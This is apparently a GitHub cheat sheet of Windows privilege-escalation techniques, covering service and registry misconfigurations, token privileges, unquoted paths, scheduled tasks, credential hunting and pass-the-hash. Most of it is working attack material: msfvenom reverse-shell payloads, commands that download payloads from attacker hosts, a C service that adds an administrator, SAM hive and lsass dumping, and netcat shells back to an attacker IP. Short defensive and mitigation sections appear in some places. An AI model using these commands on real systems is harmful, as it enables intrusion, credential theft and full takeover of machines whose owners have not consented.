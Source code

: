 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
 
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>
<details>
<summary>Weak Registry Permissions</summary>
 <br> 
  ============================

Windows services are configured in the registry under HKLM\SYSTEM\CurrentControlSet\Services. If a non-privileged user has write or full control over a service's registry key, they can change critical values like ImagePath — allowing execution of arbitrary binaries with SYSTEM privileges when the service is started.

🕵️ Step 1: Detect Weak Registry Permissions
🔎 Using WinPEAS (Automated)
Run winPEASany.exe:

cmd

    .\winPEASany.exe all
Look for entries under:
[Services - Registry Permissions]
These reveal services where the current user has excessive permissions.

<img width="1050" height="103" alt="image" src="https://github.com/user-attachments/assets/a5f5b04c-49d7-469b-84b8-35af1f32e7cd" />
🔎 Using PowerShell (Manual Check)
Check a specific service like regsvc:

powershell

    Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Look for:

Access : NT AUTHORITY\INTERACTIVE Allow  FullControl
✅ If FullControl or Write access is granted to Everyone, INTERACTIVE, or the current user — it's vulnerable.
<img width="1031" height="559" alt="image" src="https://github.com/user-attachments/assets/f7944279-ac80-4103-bf83-6bc320210f30" />

🐚 Step 2: (Optional) Generate Reverse Shell Payload
Generate a payload on your attacker (Kali) machine:

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker-ip> LPORT=1234 -f exe -o reverse_shell.exe
Or write a custom C service:
    #include <windows.h>
    #include <stdio.h>
    
    #define SLEEP_TIME 5000
    
    SERVICE_STATUS ServiceStatus; 
    SERVICE_STATUS_HANDLE hStatus; 
     
    void ServiceMain(int argc, char** argv); 
    void ControlHandler(DWORD request); 
    
    //add the payload here
    int Run() 
    { 
        system("cmd.exe /k net localgroup administrators user /add");
        return 0; 
    } 
    
    int main() 
    { 
        SERVICE_TABLE_ENTRY ServiceTable[2];
        ServiceTable[0].lpServiceName = "MyService";
        ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    
        ServiceTable[1].lpServiceName = NULL;
        ServiceTable[1].lpServiceProc = NULL;
     
        StartServiceCtrlDispatcher(ServiceTable);  
        return 0;
    }
    
    void ServiceMain(int argc, char** argv) 
    { 
        ServiceStatus.dwServiceType        = SERVICE_WIN32; 
        ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
        ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
        ServiceStatus.dwWin32ExitCode      = 0; 
        ServiceStatus.dwServiceSpecificExitCode = 0; 
        ServiceStatus.dwCheckPoint         = 0; 
        ServiceStatus.dwWaitHint           = 0; 
     
        hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
        Run(); 
        
        ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
        SetServiceStatus (hStatus, &ServiceStatus);
     
        while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
        {
    		Sleep(SLEEP_TIME);
        }
        return; 
    }
    
    void ControlHandler(DWORD request) 
    { 
        switch(request) 
        { 
            case SERVICE_CONTROL_STOP: 
    			ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
     
            case SERVICE_CONTROL_SHUTDOWN: 
                ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
            
            default:
                break;
        } 
        SetServiceStatus (hStatus,  &ServiceStatus);
        return; 
    } 
**Edit the C code**:

Change the `system()` call in `windows_service.c` to the desired command. For example:

    system("cmd.exe /k net localgroup administrators user /add");

<img width="784" height="573" alt="image" src="https://github.com/user-attachments/assets/7758c770-cd18-4aa5-8a1a-41f2d2817b37" />
Compile it:

bash

    x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  <img width="641" height="188" alt="image" src="https://github.com/user-attachments/assets/22c39aeb-deda-4f41-9e5c-e33d649f8e0b" />   
📤 Step 3: Transfer the Payload to the Target
From the target system (Windows), run:

cmd

    certutil -urlcache -split -f http://<attacker-ip>:8999/x.exe x.exe
<img width="692" height="120" alt="image" src="https://github.com/user-attachments/assets/0f93c4dd-9e1d-4341-a547-3642530616a6" />

   
🧠 You can also use Python HTTP server or impacket-smbserver to serve the file.

📝 Step 4: Modify the Service Registry Key
Replace the service binary with your payload by editing ImagePath:

cmd

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
✅ REG_EXPAND_SZ is used for variables like %SystemRoot% but works with hardcoded paths too.

🚀 Step 5: Start the Hijacked Service
Trigger the service manually:

cmd

    sc start regsvc
or

cmd

    net start regsvc
Your payload (x.exe) now executes as SYSTEM.

✅ Step 6: Confirm SYSTEM Privileges
If your payload added a user to the admin group, verify:

cmd

    net localgroup administrators
You should see the new user added successfully.
<img width="778" height="278" alt="image" src="https://github.com/user-attachments/assets/35626fa9-491d-4617-8375-8a17561f609a" />

📉 Cleanup (Optional)
Restore the original ImagePath (if known).

Delete your payload:

cmd

    del C:\temp\x.exe
Remove the user (if created):

cmd

    net user <user> /del
🛡️ Detection & Mitigation
Control	Description
🔍 Registry Monitoring	Use tools like Sysmon (Event ID 13) to track changes to HKLM\SYSTEM\CurrentControlSet\Services\*
🛡️ ACL Auditing	Regularly audit service permissions: check for users/groups with Write or FullControl
🚫 Least Privilege	Ensure non-admin users don’t have access to service registry keys
🔐 Group Policy	Enforce secure registry ACLs through GPO
🔁 Service Hardening	Reconfigure vulnerable services or replace legacy components

📝 Summary Cheat Sheet
Action	Command
Detect vuln services	Get-Acl or winPEASany.exe
Set malicious ImagePath	reg add ... /v ImagePath ...
Trigger service	sc start <svc>
Check admin status	net localgroup administrators 
</details>
<details>
<summary>SeBackupPrivilege</summary>
 <br> 
 ============================
 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
  =====================
  
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

================================

🔧 Windows Privilege Escalation – Unquoted Service Path Exploit
🧠 Concept Summary
When a Windows service is registered with an unquoted executable path and contains spaces, Windows attempts to locate the executable by parsing the path from left to right, trying each path fragment with .exe appended. If an attacker can write to any of these directories, they can drop a malicious executable and gain privilege escalation when the service is started.

📌 Prerequisites
Attacker has low-privileged shell (RDP, reverse shell, etc.)

One or more services have unquoted paths

Attacker has write permissions to any folder in the service's executable path

🔍 Step 1: Enumeration
✅ Using SharpUp (automated):
powershell

    .\SharpUp.exe auto
✅ Using winPEAS (automated):
powershell

    .\winPEASany.exe all
<img width="1063" height="472" alt="image" src="https://github.com/user-attachments/assets/87a483f6-856f-44ec-9811-6222e88f6b3e" />

✅ Manually with sc:
powershell

    sc qc <ServiceName>
# Example:
sc qc unquotedsvc
Look for output like:

<img width="1039" height="338" alt="image" src="https://github.com/user-attachments/assets/ffd807da-a68d-4d6b-910a-7959ebdfa778" />


BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\service.exe
⚠️ Notice the path is unquoted and contains spaces.

✅ Find all unquoted services in one command:
powershell

wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
🔍 Step 2: Check Write Permissions
✅ Use accesschk.exe (from Sysinternals):
powershell

    accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
🔎 Look for:
[RW] BUILTIN\Users
Meaning: any user can write in that directory.
<img width="992" height="159" alt="image" src="https://github.com/user-attachments/assets/0beb539f-c833-41eb-8ed0-882fb1b87533" />

🎯 Step 3: Exploitation
✅ Upload Reverse Shell Payload
powershell

    copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
⚠️ Name the payload according to where Windows would first look.
For path:
C:\Program Files\Unquoted Path Service\Common Files\service.exe
Windows may try:

C:\Program.exe

C:\Program Files.exe

C:\Program Files\Unquoted.exe

C:\Program Files\Unquoted Path.exe

C:\Program Files\Unquoted Path Service\Common.exe ← ✅ our injection point

Choose the earliest writable location in the path.

📞 Step 4: Start Listener (Kali)
bash

    nc -lvnp 4444
🚀 Step 5: Trigger the Service
powershell

    net start unquotedsvc
🧨 This starts the service and executes your malicious binary.
🎉 You now have a SYSTEM-level shell.
<img width="1064" height="321" alt="image" src="https://github.com/user-attachments/assets/27d6c468-3580-405f-b788-1725775f7e2b" />

🔐 Mitigation (Defender Notes)
Always quote service paths with spaces.

Restrict write permissions on system folders.

Use sc qc, GPO, or PowerShell auditing to periodically scan for misconfigurations.

✅ Checklist Summary
Task	Command/Tool
Enumerate Unquoted Paths	wmic, sc qc, SharpUp, winPEAS
Check Permissions	accesschk.exe
Upload Payload	copy reverse_shell.exe "Path"
Start Listener	nc -lvnp 4444
Start Service	net start <servicename>


</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
 =======================
 
Windows Task Scheduler allows users to schedule programs or scripts to run at specific times or system events. While this is a legitimate administrative feature, it can be abused by attackers for:

Privilege Escalation: If a scheduled task is executed with higher privileges, an attacker can inject or replace the associated executable to gain SYSTEM-level access.

Persistence: Scheduled tasks can ensure malware or shells re-execute after reboot or on a timed interval.

📌 Prerequisites
Low-privileged access to a Windows machine (e.g., via RDP or reverse shell).

Ability to read/write in directories where scheduled tasks point to executables.

OR permissions to create/modify tasks.

🔍 Step 1: Enumerate Scheduled Tasks
powershell

    schtasks /query /fo LIST /v
This lists all scheduled tasks in verbose format, including:

Task Name
Run As User
Executable Path
Schedule
Task State

📌 Look for:

Tasks run as NT AUTHORITY\SYSTEM

Executables located in user-writable paths (e.g., C:\Users\Public\, C:\ProgramData\, etc.)

🔥 Step 2: Create Malicious Executable (Reverse Shell)
Using MSFVenom to generate a reverse shell payload:

bash

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=8888 -f exe > shell.exe
Alternatively (⚙️ Alternative Payload Options):

Persistent Payload (Metasploit Meterpreter):

bash

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe > meterpreter.exe
Custom EXE (compiled C# or PowerShell script using MSBuild):

Use tools like MSBuild, donut, Nim, or C# executables.

🎯 Step 3: Inject Malicious Executable
Rename Original Executable (optional backup):

powershell

    ren file.exe file.bak
Download your payload to the same location:

powershell

    powershell -c "Invoke-WebRequest http://192.168.1.3/shell.exe -OutFile file.exe"
🔁 Alternate download methods:

certutil:

powershell

    certutil -urlcache -split -f http://192.168.1.3/shell.exe file.exe
bitsadmin:

powershell

    bitsadmin /transfer myDownloadJob /download /priority high http://192.168.1.3/shell.exe C:\Temp\file.exe
Confirm file is placed and matches original name.

📞 Step 4: Start Netcat Listener on Attacker Machine
bash

    nc -lvnp 8888
🕒 Step 5: Wait for the Scheduled Task to Trigger
On next trigger (e.g., boot time, time interval), your malicious file.exe is executed.

You receive a SYSTEM shell back.

🛡️ Detection & Monitoring
📌 View Task Scheduler Logs
Enable Event Log:

    Microsoft-Windows-TaskScheduler/Operational
Check via Event Viewer:

arduino

    Event ID 106: Task registered
    Event ID 200: Task started
    Event ID 201: Task completed
📌 Task Query for Investigation
powershell

    schtasks /query /fo LIST /v
📌 File System Monitoring
Use tools like:

🔍 Sysinternals Autoruns: Detects auto-starting entries, including scheduled tasks
Autoruns[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns]

🔍 Process Explorer: Investigates running processes and their privileges
Process Explorer[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer]

🔍 TCPView: Monitors live TCP/UDP connections
TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview]

🔀 Alternative Exploitation Scenarios
Scenario	Description
Writable Executable Path	Replace task's binary if stored in a writable location (e.g., C:\Users\Public\App.exe)
Create New Task (if user has rights)	Use schtasks /create to create a task running as SYSTEM
DLL Hijacking via Scheduled Task	If the task binary loads unmanaged DLLs unsafely, inject your malicious DLL
Startup Triggers	Abuse AtLogon, OnStartup, Daily triggers for persistence
Via COM objects / PowerShell WMI	Create tasks silently using PowerShell:

powershell

    $action = New-ScheduledTaskAction -Execute "shell.exe"
    $trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PersistTask" -User "SYSTEM"
🔐 Mitigation Techniques
Defense	Description
Least Privilege Principle	Restrict ability to create/modify tasks to admin users only
Monitor Task Changes	Enable auditing of TaskScheduler logs
Protect File System	Secure executable paths used by tasks
Application Whitelisting	Prevent unauthorized executables (e.g., via AppLocker)
Regular Review	Periodic manual or automated audits of scheduled tasks

✅ Summary
Task	Command/Tool
Enumerate Tasks	schtasks /query /fo LIST /v
Create Payload	msfvenom -p windows/shell_reverse_tcp ...
Upload Payload	powershell wget, certutil, bitsadmin
Setup Listener	nc -lvnp <port>
Detect/Investigate	Event Viewer, Autoruns, Process Explorer, Sysmon
</details>

<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================
After gaining initial access to a Windows system, attackers often look for cleartext or weakly encrypted passwords stored in configuration files, registry keys, or leftover deployment scripts. These credentials can lead to privilege escalation or access to other systems in the network.

🔎 1. Search for Passwords in Files
✅ Search common keywords in common text files:
cmd

    findstr /si password *.txt *.xml *.ini
Searches for password (case-insensitive) in .txt, .xml, and .ini files.

✅ Search all files for keywords like password:
cmd

    findstr /spin "password" *.*
/s: recurse subdirectories
/p: skip binary files
/i: case-insensitive
/n: include line numbers

✅ Search for filenames suggesting stored credentials:

    dir /s *pass* == *cred* == *vnc* == *.config*
Looks for files that likely contain credentials in their names.

🔁 Alternative Filename Searches:

cmd

    dir /s /b *pass*.*  
    dir /s /b *cred*.*  
    dir /s /b *secret*.*  
    dir /s /b *.config  
    dir /s /b *.ini  
🗂️ 2. Check Known Files Containing Credentials
These files are often left over from Windows installations, third-party applications, or RDP/VNC tools:

cmd

    type C:\sysprep.inf
    type C:\sysprep\sysprep.xml
    type C:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
💡 These often contain Local Admin credentials used during unattended Windows installations.

📂 3. Look for Remote Desktop & VNC Credentials

    dir C:\*vnc.ini /s /b
    dir C:\*ultravnc.ini /s /b
    dir C:\ /s /b | findstr /si *vnc.ini
VNC applications often store saved passwords in these .ini files (sometimes base64 or weak XOR encoding).

🔁 Alternatives:

tightvnc.ini
realvnc.ini
*.rdp files

🧬 4. Search the Windows Registry for Stored Passwords
🔍 Search entire registry hives:

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
🔎 Scans for REG_SZ values containing password.

🔎 Targeted Registry Keys

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
Look for DefaultPassword, AutoAdminLogon, etc. Can be used to autologin as local admin.

cmd

    reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP"
SNMP community strings may be stored here (used for network equipment access).

    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
PuTTY session passwords, IPs, saved usernames – can be decoded from registry manually or using tools like putty-creds.

    reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password
RealVNC stores encrypted passwords here. Can be cracked with tools like vncpwd.

💡 Extra Tip: Use PowerShell for Enhanced File Search
powershell

    Get-ChildItem -Recurse -Include *.xml,*.txt,*.ini -Path C:\ | 
    Select-String -Pattern "password" -SimpleMatch
More efficient and readable than findstr, especially with large directories.

📂 Locations Often Containing Secrets
Path	Description
C:\Users\<user>\AppData\Roaming\	App data, often includes creds
C:\ProgramData\	Global config files
C:\inetpub\wwwroot\	Web apps with DB connection strings
.git directories	May include .env, configs, hardcoded secrets
.rdp files	Remote Desktop files may store credentials
web.config, app.config	.NET config files with plaintext DB strings

🧰 Helpful Tools (Optional)
🛠️ Windows Credential Editor (WCE) – Dumps stored credentials.
🔎 LaZagne – Searches for stored passwords from various apps.
🧪 Mimikatz – Extracts plaintext credentials, tokens, and hashes from memory.
🔐 Secretsdump.py (Impacket) – Dumps credentials remotely via SMB.
🧾 NirSoft tools – GUI tools for saved browser, RDP, Outlook, etc., passwords.

🔐 Detection & Defense
Defense Strategy	Description
File Auditing	Monitor access to sensitive config and .xml, .ini, .rdp files
Registry Auditing	Use Sysmon + Event Logging to monitor suspicious registry access
Credential Scanning Tools	Use tools like truffleHog, gitleaks, or Stealthbits to scan systems/repos for secrets
Least Privilege	Avoid storing passwords in plaintext where possible, and restrict read permissions
Credential Manager	Use Windows Credential Locker or LSA to securely store secrets

✅ Summary Table
Task	Command
Find password in text files	findstr /si password *.txt *.xml *.ini
Search all files for keywords	findstr /spin "password" *.*
Search filenames	dir /s *pass*.*
Check common files	type c:\unattend.xml, etc.
Check registry	reg query HKLM /f password /t REG_SZ /s
PuTTY sessions	reg query HKCU\Software\SimonTatham\PuTTY\Sessions
VNC keys	reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v password


</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================
Passing the Hash is a post-exploitation technique that allows an attacker to authenticate using NTLM hashes without knowing the actual plaintext password. Instead of cracking hashes, the attacker reuses them directly to gain remote or local access under another user’s (typically admin) context.

🔍 Step 1: Dump NTLM Password Hashes
To perform PtH, you first need access to NTLM hashes. These can be obtained using credential-dumping tools:

✅ Common Hash Dumping Tools
cmd

    wce32.exe -w
    wce64.exe -w
    fgdump.exe
🧰 Alternative Hash Dumpers:

mimikatz.exe – Powerful credential extraction tool:

powershell

    sekurlsa::logonpasswords
lsass.dmp with secretsdump.py:

bash

    procdump64.exe -ma lsass.exe lsass.dmp
    secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
LaZagne – Extracts saved creds from many apps

🌐 Passing the Hash – Remote Execution
Once you have an NTLM hash, you can use it to remotely authenticate and execute commands on other systems.

✅ Using pth-winexe
bash

    pth-winexe -U <domain>/<username>%<NTLM_hash> //<target-ip> cmd
🚩 Use Administrator or other privileged accounts for best results.

📌 Target Hostname Instead of IP

Some systems may require NetBIOS name resolution:

bash

    pth-winexe -U <domain>/<username>%<hash> //<hostname> cmd
🛠️ If hostname doesn't resolve, edit /etc/hosts:

php-template

    <target-ip>  <hostname>
✅ Using Environment Variable SMBHASH (Alternate Method)
bash

    export SMBHASH=<LM_hash>:<NTLM_hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd
Useful if only one hash type is available (LM or NTLM).

🧠 Tip: If LM hash is not used, you can leave it as 00000000000000000000000000000000

✅ Using impacket's wmiexec.py or psexec.py
bash

    psexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
    wmiexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
🔁 Use -k or -no-pass flags depending on your setup.

🖥️ Passing the Hash – Local Execution
In some cases, you can use the NTLM hash locally on the same machine where the hash was dumped to escalate privileges.

✅ Using runas (Custom Build for PtH)
⚠️ Windows' built-in runas.exe does not support PtH natively. This method works only with modified or patched versions (e.g., via PowerShell Empire or tools like RunasCs).

cmd

    runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
🧠 Note: You may need SeTcbPrivilege or SYSTEM-level context to impersonate other users with hashes locally.

✅ Using PowerShell (via Secure Strings)
powershell

    $secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    $mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
⚠️ Limitation: This works with plaintext passwords, not hashes. For actual PtH, use Invoke-WMIExec or similar.

